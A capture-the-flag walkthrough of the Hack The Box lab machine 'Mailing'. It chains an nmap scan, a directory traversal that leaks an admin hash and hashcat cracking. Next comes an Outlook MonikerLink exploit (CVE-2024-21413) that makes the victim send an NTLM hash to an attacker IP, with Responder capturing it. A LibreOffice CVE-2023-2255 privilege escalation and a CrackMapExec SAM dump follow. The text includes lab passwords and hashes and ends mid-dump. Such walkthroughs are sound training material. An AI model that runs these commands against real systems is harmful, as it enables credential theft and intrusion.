    	<font size="10"> <b>Mailing<b></font>

​		30<sup>th</sup> 7 2024

​		Challenge Author(s): 
   ruycr4ft & TheCyberGeek
​		
### Description:

Not provided.


### Difficulty: `easy`

### Flag: `--------`


## Solver: Nikolaos Bermparis | nickname: theberbarian
 

Given the IP address we can enter the website.
  

We can see that we are given the names of the team running the service. That would be helpful for later.


Nmap scan
```
Nmap scan report for mailing.htb (10.10.11.14)
Host is up, received user-set (0.052s latency).
Scanned at 2024-07-29 22:32:12 EEST for 2970s
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE       REASON  VERSION
25/tcp    open  smtp          syn-ack hMailServer smtpd
|_smtp-commands: Couldn't establish connection on port 25
80/tcp    open  http          syn-ack Microsoft IIS httpd 10.0
110/tcp   open  pop3          syn-ack hMailServer pop3d
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
143/tcp   open  imap          syn-ack hMailServer imapd
445/tcp   open  microsoft-ds? syn-ack
465/tcp   open  ssl/smtp      syn-ack hMailServer smtpd
|_smtp-commands: Couldn't establish connection on port 465
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU/emailAddress=ruy@mailing.htb/localityName=Madrid/organizationalUnitName=MAILING
| Issuer: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU/emailAddress=ruy@mailing.htb/localityName=Madrid/organizationalUnitName=MAILING
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-02-27T18:24:10
| Not valid after:  2029-10-06T18:24:10
| MD5:   bd32:df3f:1d16:08b8:99d2:e39b:6467:297e
| SHA-1: 5c3e:5265:c5bc:68ab:aaac:0d8f:ab8d:90b4:7895:a3d7
| -----BEGIN CERTIFICATE-----
| MIIDpzCCAo8CFAOEgqHfMCTRuxKnlGO4GzOrSlUBMA0GCSqGSIb3DQEBCwUAMIGP
| MQswCQYDVQQGEwJFVTERMA8GA1UECAwIRVVcU3BhaW4xDzANBgNVBAcMBk1hZHJp
| ZDEUMBIGA1UECgwLTWFpbGluZyBMdGQxEDAOBgNVBAsMB01BSUxJTkcxFDASBgNV
| BAMMC21haWxpbmcuaHRiMR4wHAYJKoZIhvcNAQkBFg9ydXlAbWFpbGluZy5odGIw
| HhcNMjQwMjI3MTgyNDEwWhcNMjkxMDA2MTgyNDEwWjCBjzELMAkGA1UEBhMCRVUx
| ETAPBgNVBAgMCEVVXFNwYWluMQ8wDQYDVQQHDAZNYWRyaWQxFDASBgNVBAoMC01h
| aWxpbmcgTHRkMRAwDgYDVQQLDAdNQUlMSU5HMRQwEgYDVQQDDAttYWlsaW5nLmh0
| YjEeMBwGCSqGSIb3DQEJARYPcnV5QG1haWxpbmcuaHRiMIIBIjANBgkqhkiG9w0B
| AQEFAAOCAQ8AMIIBCgKCAQEAqp4+GH5rHUD+6aWIgePufgFDz+P7Ph8l8lglXk4E
| wO5lTt/9FkIQykSUwn1zrvIyX2lk6IPN+airnp9irb7Y3mTcGPerX6xm+a9HKv/f
| i3xF2oo3Km6EddnUySRuvj8srEu/2REe/Ip2cIj85PGDOEYsp1MmjM8ser+VQC8i
| ESvrqWBR2B5gtkoGhdVIlzgbuAsPyriHYjNQ7T+ONta3oGOHFUqRIcIZ8GQqUJlG
| pyERkp8reJe2a1u1Gl/aOKZoU0yvttYEY1TSu4l55al468YAMTvR3cCEvKKx9SK4
| OHC8uYfnQAITdP76Kt/FO7CMqWWVuPGcAEiYxK4BcK7U0wIDAQABMA0GCSqGSIb3
| DQEBCwUAA4IBAQCCKIh0MkcgsDtZ1SyFZY02nCtsrcmEIF8++w65WF1fW0H4t9VY
| yJpB1OEiU+ErYQnR2SWlsZSpAqgchJhBVMY6cqGpOC1D4QHPdn0BUOiiD50jkDIx
| Qgsu0BFYnMB/9iA64nsuxdTGpFcDJRfKVHlGgb7p1nn51kdqSlnR+YvHvdjH045g
| ZQ3JHR8iU4thF/t6pYlOcVMs5WCUhKKM4jyucvZ/C9ug9hg3YsEWxlDwyLHmT/4R
| 8wvyaiezGnQJ8Mf52qSmSP0tHxj2pdoDaJfkBsaNiT+AKCcY6KVAocmqnZDWQWut
| spvR6dxGnhAPqngRD4sTLBWxyTTR/brJeS/k
|_-----END CERTIFICATE-----
587/tcp   open  smtp          syn-ack hMailServer smtpd
|_smtp-commands: Couldn't establish connection on port 587
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU/emailAddress=ruy@mailing.htb/localityName=Madrid/organizationalUnitName=MAILING
| Issuer: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU/emailAddress=ruy@mailing.htb/localityName=Madrid/organizationalUnitName=MAILING
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-02-27T18:24:10
| Not valid after:  2029-10-06T18:24:10
| MD5:   bd32:df3f:1d16:08b8:99d2:e39b:6467:297e
| SHA-1: 5c3e:5265:c5bc:68ab:aaac:0d8f:ab8d:90b4:7895:a3d7
| -----BEGIN CERTIFICATE-----
| MIIDpzCCAo8CFAOEgqHfMCTRuxKnlGO4GzOrSlUBMA0GCSqGSIb3DQEBCwUAMIGP
| MQswCQYDVQQGEwJFVTERMA8GA1UECAwIRVVcU3BhaW4xDzANBgNVBAcMBk1hZHJp
| ZDEUMBIGA1UECgwLTWFpbGluZyBMdGQxEDAOBgNVBAsMB01BSUxJTkcxFDASBgNV
| BAMMC21haWxpbmcuaHRiMR4wHAYJKoZIhvcNAQkBFg9ydXlAbWFpbGluZy5odGIw
| HhcNMjQwMjI3MTgyNDEwWhcNMjkxMDA2MTgyNDEwWjCBjzELMAkGA1UEBhMCRVUx
| ETAPBgNVBAgMCEVVXFNwYWluMQ8wDQYDVQQHDAZNYWRyaWQxFDASBgNVBAoMC01h
| aWxpbmcgTHRkMRAwDgYDVQQLDAdNQUlMSU5HMRQwEgYDVQQDDAttYWlsaW5nLmh0
| YjEeMBwGCSqGSIb3DQEJARYPcnV5QG1haWxpbmcuaHRiMIIBIjANBgkqhkiG9w0B
| AQEFAAOCAQ8AMIIBCgKCAQEAqp4+GH5rHUD+6aWIgePufgFDz+P7Ph8l8lglXk4E
| wO5lTt/9FkIQykSUwn1zrvIyX2lk6IPN+airnp9irb7Y3mTcGPerX6xm+a9HKv/f
| i3xF2oo3Km6EddnUySRuvj8srEu/2REe/Ip2cIj85PGDOEYsp1MmjM8ser+VQC8i
| ESvrqWBR2B5gtkoGhdVIlzgbuAsPyriHYjNQ7T+ONta3oGOHFUqRIcIZ8GQqUJlG
| pyERkp8reJe2a1u1Gl/aOKZoU0yvttYEY1TSu4l55al468YAMTvR3cCEvKKx9SK4
| OHC8uYfnQAITdP76Kt/FO7CMqWWVuPGcAEiYxK4BcK7U0wIDAQABMA0GCSqGSIb3
| DQEBCwUAA4IBAQCCKIh0MkcgsDtZ1SyFZY02nCtsrcmEIF8++w65WF1fW0H4t9VY
| yJpB1OEiU+ErYQnR2SWlsZSpAqgchJhBVMY6cqGpOC1D4QHPdn0BUOiiD50jkDIx
| Qgsu0BFYnMB/9iA64nsuxdTGpFcDJRfKVHlGgb7p1nn51kdqSlnR+YvHvdjH045g
| ZQ3JHR8iU4thF/t6pYlOcVMs5WCUhKKM4jyucvZ/C9ug9hg3YsEWxlDwyLHmT/4R
| 8wvyaiezGnQJ8Mf52qSmSP0tHxj2pdoDaJfkBsaNiT+AKCcY6KVAocmqnZDWQWut
| spvR6dxGnhAPqngRD4sTLBWxyTTR/brJeS/k
|_-----END CERTIFICATE-----
993/tcp   open  ssl/imap      syn-ack hMailServer imapd
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU/emailAddress=ruy@mailing.htb/localityName=Madrid/organizationalUnitName=MAILING
| Issuer: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU/emailAddress=ruy@mailing.htb/localityName=Madrid/organizationalUnitName=MAILING
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-02-27T18:24:10
| Not valid after:  2029-10-06T18:24:10
| MD5:   bd32:df3f:1d16:08b8:99d2:e39b:6467:297e
| SHA-1: 5c3e:5265:c5bc:68ab:aaac:0d8f:ab8d:90b4:7895:a3d7
| -----BEGIN CERTIFICATE-----
| MIIDpzCCAo8CFAOEgqHfMCTRuxKnlGO4GzOrSlUBMA0GCSqGSIb3DQEBCwUAMIGP
| MQswCQYDVQQGEwJFVTERMA8GA1UECAwIRVVcU3BhaW4xDzANBgNVBAcMBk1hZHJp
| ZDEUMBIGA1UECgwLTWFpbGluZyBMdGQxEDAOBgNVBAsMB01BSUxJTkcxFDASBgNV
| BAMMC21haWxpbmcuaHRiMR4wHAYJKoZIhvcNAQkBFg9ydXlAbWFpbGluZy5odGIw
| HhcNMjQwMjI3MTgyNDEwWhcNMjkxMDA2MTgyNDEwWjCBjzELMAkGA1UEBhMCRVUx
| ETAPBgNVBAgMCEVVXFNwYWluMQ8wDQYDVQQHDAZNYWRyaWQxFDASBgNVBAoMC01h
| aWxpbmcgTHRkMRAwDgYDVQQLDAdNQUlMSU5HMRQwEgYDVQQDDAttYWlsaW5nLmh0
| YjEeMBwGCSqGSIb3DQEJARYPcnV5QG1haWxpbmcuaHRiMIIBIjANBgkqhkiG9w0B
| AQEFAAOCAQ8AMIIBCgKCAQEAqp4+GH5rHUD+6aWIgePufgFDz+P7Ph8l8lglXk4E
| wO5lTt/9FkIQykSUwn1zrvIyX2lk6IPN+airnp9irb7Y3mTcGPerX6xm+a9HKv/f
| i3xF2oo3Km6EddnUySRuvj8srEu/2REe/Ip2cIj85PGDOEYsp1MmjM8ser+VQC8i
| ESvrqWBR2B5gtkoGhdVIlzgbuAsPyriHYjNQ7T+ONta3oGOHFUqRIcIZ8GQqUJlG
| pyERkp8reJe2a1u1Gl/aOKZoU0yvttYEY1TSu4l55al468YAMTvR3cCEvKKx9SK4
| OHC8uYfnQAITdP76Kt/FO7CMqWWVuPGcAEiYxK4BcK7U0wIDAQABMA0GCSqGSIb3
| DQEBCwUAA4IBAQCCKIh0MkcgsDtZ1SyFZY02nCtsrcmEIF8++w65WF1fW0H4t9VY
| yJpB1OEiU+ErYQnR2SWlsZSpAqgchJhBVMY6cqGpOC1D4QHPdn0BUOiiD50jkDIx
| Qgsu0BFYnMB/9iA64nsuxdTGpFcDJRfKVHlGgb7p1nn51kdqSlnR+YvHvdjH045g
| ZQ3JHR8iU4thF/t6pYlOcVMs5WCUhKKM4jyucvZ/C9ug9hg3YsEWxlDwyLHmT/4R
| 8wvyaiezGnQJ8Mf52qSmSP0tHxj2pdoDaJfkBsaNiT+AKCcY6KVAocmqnZDWQWut
| spvR6dxGnhAPqngRD4sTLBWxyTTR/brJeS/k
|_-----END CERTIFICATE-----
5040/tcp  open  unknown       syn-ack
7680/tcp  open  pando-pub?    syn-ack
47001/tcp open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack Microsoft Windows RPC
53204/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb2-security-mode: Couldn't establish a SMBv2 connection.
|_smb2-time: Protocol negotiation failed (SMB2)
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 29452/tcp): CLEAN (Timeout)
|   Check 2 (port 58328/tcp): CLEAN (Timeout)
|   Check 3 (port 37492/udp): CLEAN (Timeout)
|   Check 4 (port 10619/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 23:21
Completed NSE at 23:21, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 23:21
Completed NSE at 23:21, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 23:21
Completed NSE at 23:21, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2970.23 seconds


```

We are mainly focusing on email-related protocols (SMTP, POP3, IMAP), HTTP, and several Microsoft-related services (RPC, SMB). The host appears to use hMailServer for email handling and Microsoft IIS for HTTP.

----------------------

Let's see if any other directories exist:

 

From our gobuster search we can see an assets directory.

 

----------------------

In my second i search we can see that a  /download.php directory exists.

 


 

----------------------

Using Burp Suite to intercept the request, we can observe that directory traversal might be possible for the file path.

 

We could try to modify the file pathting in order to retrieve more data.

From exploitdb i found a pattern that matches our case (https://www.exploit-db.com/exploits/7012)
Let's modify it in burp

 

Very easily we have found a hash!
Also it belongs to the Administrator.

----------------------

We can crack it by using hashcat.

```
hashcat -a 0 -m 0 841bb5acfa6779ae432fd7a4e6600ba7 /usr/share/wordlists/rockyou.txt
```
 

For the next step we need to capture a user hash. 
We can see that the maxchine in question runs windows and has an open 445 port.
Perhaps we could take advantage of NTLM and capture the hash that we need.

The CVE in mind for that job is (https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability?tab=readme-ov-file)

CVE-2024-21413 is a critical remote code execution (RCE) vulnerability affecting Microsoft Outlook. It is also known as the "MonikerLink" exploit. The vulnerability arises from improper handling of certain types of embedded links in emails, allowing an attacker to bypass protections in Outlook, such as the Office Protected View, which is designed to open documents in a read-only mode​.

Before running the exploit , we want to listen for NTLM Hashes. We can use the tool responder:

 

Now we can send the mail for the exploit.

```
┌──(user㉿10)-[~/HTB/mailing/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability]
└─$ python3 CVE-2024-21413.py --server mailing.htb --port 587 --username administrator@mailing.htb --password homenetworkingadministrator --sender administrator@mailing.htb --recipient maya@mailing.htb --url "\\10.10.14.71\test\meeting" --subject "maintenance"
```

In responder we should get:


```
[SMB] NTLMv2-SSP Client   : 10.10.11.14
[SMB] NTLMv2-SSP Username : MAILING\maya
[SMB] NTLMv2-SSP Hash     : maya::MAILING:95de498996a31a8c:D2BABC773FF653EE285D33E6FE5493A6:010100000000000080F2298488B6DA015D1DCBB264E2490C0000000002000800530059005500490001001E00570049004E002D005A004F0042005000340036004D0038004B005600410004003400570049004E002D005A004F0042005000340036004D0038004B00560041002E0053005900550049002E004C004F00430041004C000300140053005900550049002E004C004F00430041004C000500140053005900550049002E004C004F00430041004C000700080080F2298488B6DA0106000400020000000800300030000000000000000000000000200000C9E5BC0C7D84E948E12CF5D180E24C511C66B448EF8DB310790EDB6AD72669FF0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00370031000000000000000000
[*] Skipping previously captured hash for MAILING\maya

```

Now that we got the NTLM hash we can use again hashcat.

 


If you look closely it is the hash of Maya Bendito , part of the support team.

We've obtained the credentials for Maya, and the previous nmap scan revealed that port 5985 is open. Therefore, we can utilize Evil-WinRM to establish a PowerShell session.

 

If we head to the Desktop directory and type the txt file , we will obtain the user flag.

----------------------

After a bit of searching we can see that the user has LibreOffice version 7.4
We can use the CVE-2023-2255 to gain priviledges as an admin (https://github.com/elweth-sec/CVE-2023-2255)

CVE-2023-2255 is a critical vulnerability affecting LibreOffice, which allows for remote code execution (RCE). This vulnerability exploits the ability to load external resources, potentially enabling an attacker to execute arbitrary commands on a victim's system.

The exploit works by crafting a malicious OpenDocument Text (ODT) file. The attacker uses a payload to download a web shell or other malicious files from an external server. The provided proof-of-concept (PoC) demonstrates how a Python script can modify an ODT file's XML content to include a command that fetches a web shell from a specified URL. When the victim opens this malicious document, the command executes, potentially compromising the system​ 

We can transfer the file by hosting a python server:

 
 

Below we can see the user groups:




We will use CrackMapExec to retrieve the hash of the local administrator account.

```
┌──(user㉿10)-[~]
└─$ sudo crackmapexec smb 10.10.11.14 -u maya -p "m4y4ngs4ri" --sam
[*] Generating SSL certificate
SMB         10.10.11.14     445    MAILING          [*] Windows 10 / Server 2019 Build 19041 x64 (name:MAILING) (domain:MAILING) (signing:False) (SMBv1:False)
SMB         10.10.11.14     445    MAILING          [+] MAILING\maya:m4y4ngs4ri (Pwn3d!)
SMB         10.10.11.14     445    MAILING          [+] Dumping SAM hashes
SMB         10.10.11.14     445    MAILING          Administrador:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                      
SMB         10.10.11.14     445    MAILING          Invitado:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                     
SMB         10.10.11.14     445    MAILING          DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                                       
